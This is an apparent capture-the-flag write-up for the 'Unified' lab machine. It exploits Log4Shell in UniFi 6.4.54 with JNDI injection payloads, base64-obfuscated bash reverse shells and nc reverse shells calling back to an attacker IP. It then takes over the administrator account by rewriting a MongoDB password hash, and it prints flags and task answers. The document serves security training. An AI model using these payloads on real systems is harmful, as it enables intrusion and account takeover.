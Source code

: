 <center>Unified</center>



[toc]







## Unified

> Unified









### 1. task

1. Which are the first four open ports?

```shell
22,6789,8080,8443
```

2. What is the title of the software that is running running on port 8443?

```shell
UniFi Network
```

3. What is the version of the software that is running?

```shell
6.4.54
```

4. What is the CVE for the identified vulnerability?

```shell
CVE-2021-44228
```

5. What protocol does JNDI leverage in the injection?

```shell
ldap
```

6. What tool do we use to intercept the traffic, indicating the attack was successful?

```shell
tcpdump
```

7. What port do we need to inspect intercepted traffic for?

```shell
389
```

8. What port is the MongoDB service running on?

```shell
27117
```

9. What is the default database name for UniFi applications?

```shell
ace
```

10. What is the function we use to enumerate users within the database in MongoDB?

```shell
db.admin.find()
```

11. What is the function we use to update users within the database in MongoDB?

```shell
db.admin.update()
```

12. What is the password for the root user?

```shell
NotACrackablePassword4U2022
```







### 3.flag

> 获取flag

* 信息收集

```shell
nmap -sV -sC $ip

PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
6789/tcp open  ibm-db2-admin?
8080/tcp open  http-proxy
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Did not follow redirect to https://10.129.131.183:8443/manage
| fingerprint-strings: 
|   FourOhFourRequest: 
8443/tcp open  ssl/nagios-nsca Nagios NSCA
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
```

> 访问`8080`页面跳转了
>
> `https://10.129.147.42:8443/manage/account/login?redirect=%2Fmanage`

> cms: `unifi 6.4.54`
>
> 存在漏洞： CVE-2021-44228  [blog](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi)

```sell
JNDI注入：
${jndi:ldap://10.10.16.32/whatever}"
```

![image-20241205101219997](./assets/image-20241205101219997.png)

```shell
# 流量监控
sudo tcpdump -i tun0
```

> 虽然响应报错，但是`${jndi:ldap://10.10.16.32/whatever}"`正在执行

> JIDI注入工具： [github](https://github.com/welk1n/JNDI-Injection-Exploit)

```shell
# JIDI注入工具反弹shell
bash -i >& /dev/tcp/10.10.16.32/4444 0>&1

# 对shell进行base64编码
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4zMi80NDQ0IDA+JjE=}|{base64,-d}|{bash,-i}

# 工具执行
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4zMi80NDQ0IDA+JjE=}|{base64,-d}|{bash,-i}" -A "10.10.16.32"


# 另外一片博客
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "nc 10.10.16.32 4444 -e /bin/sh" -A "10.10.16.32"

# 开启监听
nc -lnvp 4444
```

![image-20241205103318045](./assets/image-20241205103318045.png)

> burp执行payload

```shell
"${jndi:rmi://10.10.16.32:1099/86j49q}"
```

> 方法二： `log4j`

```shell
# 环境
apt install openjdk-11-jdk
# 安裝maven
apt install maven

# 通過log4j漏洞拿到shell需要下載以下脚本：
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package

# 接下來在命令行中獲取shell的腳本 base64編碼，這裡的ip為自己的。
echo 'bash -c bash -i >&/dev/tcp/10.10.16.32/4444 0>&1' | base64

# 再使用java將生成的base64編碼填入，IP也要更換自己的。
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTYuMzIvNDQ0NCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.16.32"

# nc 监听
nc -lncp 4444
```

![image-20241205134352206](./assets/image-20241205134352206.png)

![image-20241205135046687](./assets/image-20241205135046687.png)

```shell
# burp修改字段：
"remember":"${jndi:ldap://10.10.16.32:1389/o=tomcat}",

# user.txt
cd /home
ls
michael
cd michael
ls
user.txt
cat user.txt
6ced1a6a89e666c0620cdb10262ba127
```

* 提权

```shell
# 查看系统进程
ps
    PID TTY          TIME CMD
      1 ?        00:00:00 docker-init
      7 ?        00:00:00 bash
     17 ?        00:01:51 java
     67 ?        00:00:53 mongod
   6316 ?        00:00:00 bash
   6320 ?        00:00:00 bash
   6323 ?        00:00:00 bash
   6424 ?        00:00:00 ps

ps -aux | grep mongod
```

![image-20241205135439042](./assets/image-20241205135439042.png)

> google搜索UniFi Default Database可以发现，UniFi默认数据库为ace

```shell
# 客户端
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson)"

administrator / $6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.
```

![image-20241205135745080](./assets/image-20241205135745080.png)

```shell
# 从$6$可知，密码采用SHA512
$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.

# 既然无法破解，尝试是否可以使用新密码的sha 512 hash 替换原本的密码，使用mkpasswd工具：
mkpasswd -m sha-512 新密码
mkpasswd -m sha-512 admin123                                      
$6$NNKANutvVl7R.mfk$sysQ7tR/hrvihYcS/Snsi6GuIYwLs9rs/QLu0Rlsa3uHgmRTqe1FyfAOPximzmUCyVeXZvLSKetSQ3lFHxsbw.

# 修改密码
mongo --port 27117 ace --eval 'db.admin.update({"_id" : ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$NNKANutvVl7R.mfk$sysQ7tR/hrvihYcS/Snsi6GuIYwLs9rs/QLu0Rlsa3uHgmRTqe1FyfAOPximzmUCyVeXZvLSKetSQ3lFHxsbw."}})'

administrator/admin123
```

> 登陆网站。
>
> 获取到ssh密钥

![image-20241205141321646](./assets/image-20241205141321646.png)

```shell
# ssh登陆
ssh root@10.129.90.116

# flag
cd /root

cat root.txt
e50bc93c75b634e4b272d2f771c33681
```

